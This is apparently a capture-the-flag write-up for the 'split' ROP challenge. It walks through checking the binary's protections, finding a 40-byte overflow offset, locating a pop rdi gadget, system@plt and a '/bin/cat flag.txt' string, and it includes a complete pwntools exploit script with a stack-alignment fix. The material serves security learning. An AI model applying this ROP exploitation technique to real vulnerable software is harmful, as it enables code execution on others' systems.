




## Task

The elements that allowed you to complete ret2win are still present, they've just been split apart.
Find them and recombine them using a short ROP chain.

## Initial Recon

As always, I started by using my tool, TIO, to get some basic information about the binary.



There is no stack canary, which means a potential buffer overflow would be easy to exploit. Additionally, there is no PIE, which means all addresses in the binary are fixed. However, NX is enabled, which means we cannot execute shellcode on the stack.


Next, i started the program to see what happens.



As you can see, the program has a simple input field, when you type something in it, the program says `Thank you` and exits.

## Analysis

Since there was no stack canary, I assumed it was probably a buffer overflow in the program.
So i generated a random non-repetetive string in pwndbg with `cyclic 200`. 



And yes, as you can see, the program caused a segmentation fault. That means the return address was overwritten with my junk data. Now we can copy the RIP value and use `cyclic - l [rip]`. Then we have the offset from our input to the return address.
In my case, the offset was `40`.

## Vulnerability

The vulnerability is a simple buffer overflow. Since NX is enabled, you can't write shellcode to the stack, so you have to craft a ROP chain.

## Exploitation

Since we need to craft a ROP chain, we first have to find the addresses of the individual gadgets. The three gadgets we need are the `pop rdi; ret` gadget to load our argument into `rdi`, the string `/bin/cat flag.txt` as the argument for `system()`, and `system()` itself.

**Finding `pop rdi`**

We use ropper to search for the gadget:

```
ropper -f split --search "pop rdi"
```

Output: `0x00000000004007c3: pop rdi; ret;`

**Finding `system()`**

We start the binary in pwndbg, set a breakpoint at main and run it:

```
break main
r
p system
```

Output: `$1 = {<text variable, no debug info>} 0x400560 <system@plt>`

**Finding `/bin/cat flag.txt`**

We can simply search for the string directly in pwndbg:

```
search "/bin/cat flag.txt"
```

Output: `split 0x601060 '/bin/cat flag.txt'`

Now that we have all the addresses we need, we can finally build our exploit.

## Exploit Code

Here is the simple python script i wrote:

```python
from pwn import *

# helps us to chain gadgets
rop = ROP("./split")
# define and starts the process, necessary to interact with the binary
p = process("./split") 


pop_rdi = p64(0x4007c3) # address of pop_rdi gadget
system = p64(0x400560)  # address of system() gadget
bincat = p64(0x601060)  # address of the string

 # first send 40 bytes garbage, then pop the string value from the stack and mov it into rdi, dann call system() with the argument stored in rdi.
payload = b"A" * 40 + pop_rdi + bincat + system

p.recvuntil(b"> ")  # when to start reading input
p.send(payload)     # send payload without newline
p.interactive()     
```

I ran the script but it didn't work, then I remembered one of my most common mistakes, I make this mistake over and over again, but I remembered it right away and fixed it. The problem is the alignment: `system()` always requires a stack that is 16 byte aligned. So when you build a ROP chain, the stack shifts due to all the p64() values, and in the end, rsp ends up at 8 instead of 0. Then system() crashes with SIGSEGV.
So we need to add a extra `ret`.
The extra ret simply does rsp += 8. Then the stack is aligned to 16 bytes again, and `system()` is happy.

So the final working script:
```python 
from pwn import *

# helps us to chain gadgets
rop = ROP("./split")
# define and starts the process, necessary to interact with the binary
p = process("./split") 


pop_rdi = p64(0x4007c3) # address of pop_rdi gadget
system = p64(0x400560)  # address of system() gadget
bincat = p64(0x601060)  # address of the string
ret_gadget = p64(rop.find_gadget(['ret'])[0]) # ALIGNEMENT !!!!!!

 # first send 40 bytes garbage, then pop the string value from the stack and mov it into rdi, dann call system() with the argument stored in rdi.
payload = b"A" * 40 + pop_rdi + bincat + ret_gadget + system

p.recvuntil(b"> ")  # when to start reading input
p.send(payload)     # send payload without newline
p.interactive() 
```

And we finally got our flag:


Author: pr1meM
